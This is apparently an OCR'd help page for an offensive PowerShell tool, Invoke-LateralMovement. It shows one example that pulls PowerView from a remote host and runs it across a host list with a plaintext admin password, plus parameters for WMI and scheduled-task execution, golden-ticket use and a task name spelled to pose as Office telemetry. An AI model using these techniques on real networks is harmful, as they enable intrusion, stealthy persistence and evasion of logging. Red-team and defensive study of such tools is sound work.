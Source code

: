Perform Get-DomainGroupMember on a multiple machine and pull results over HTTP on port 8080 with a custom script name (Less Windows event logs):  
Invoke-LateralMovement -HostList C:\temp\hosts.txt -ExecPS -UserName AdminUser -Password P@55w0rd -Domain PWC -ScriptDir http://10.0.0.5/PowerView.ps1 -CustomCommand "Get-DomainGroupMember 'Domain Admins'" 

-----------------------------
#### Parameter Sets:

.PARAMETER HostName  
Specifies single host to run command on

.PARAMETER HostList  
Specifies the file to read a list of hosts from, separated by newline.

.PARAMETER UserName  
Specifies the username to use for the command

.PARAMETER Password  
Specifies the password of the user

.PARAMETER Domain  
Specifies Domain of the user account being used.

.PARAMETER OutputFolder  
Specify output folder name and/or location on your local machine. (Default is current user's Desktop)

.SWITCH Delete  
To be used with the -SchTasks switch, will delete the task created on a remote machine.

----------------------------

.SWITCH WmiCommand  
Specifies that a [schtask, wmic, or Invoke-Wmimethod] command will be run on the corresponding hosts. Will ping an IP by default, unless given the -CustomCommand flag.

.PARAMETER IP  
Specifies the IP the compromised machine will ping.

.PARAMETER CustomCommand  
Specifies a custom command, if the user wants to take other actions than ping.

.SWITCH GoldenTicket  
Specifies that if a golden ticket is in use to use the correct syntax.

\  
&nbsp;&nbsp;&nbsp;&nbsp;.SWITCH SchTasks  
&nbsp;&nbsp;&nbsp;&nbsp;Specifies that a task will be created on the remote machine instead of using wmic.

&nbsp;&nbsp;&nbsp;&nbsp;.PARAMETER TaskTime  
&nbsp;&nbsp;&nbsp;&nbsp;Specifies the time the task will be run. [24-hour clock]

&nbsp;&nbsp;&nbsp;&nbsp;.PARAMETER TaskName  
&nbsp;&nbsp;&nbsp;&nbsp;Specifies the name of the task that will be created. (By default it is set to "OfficeTe1emetryAgentLogOn")  
/
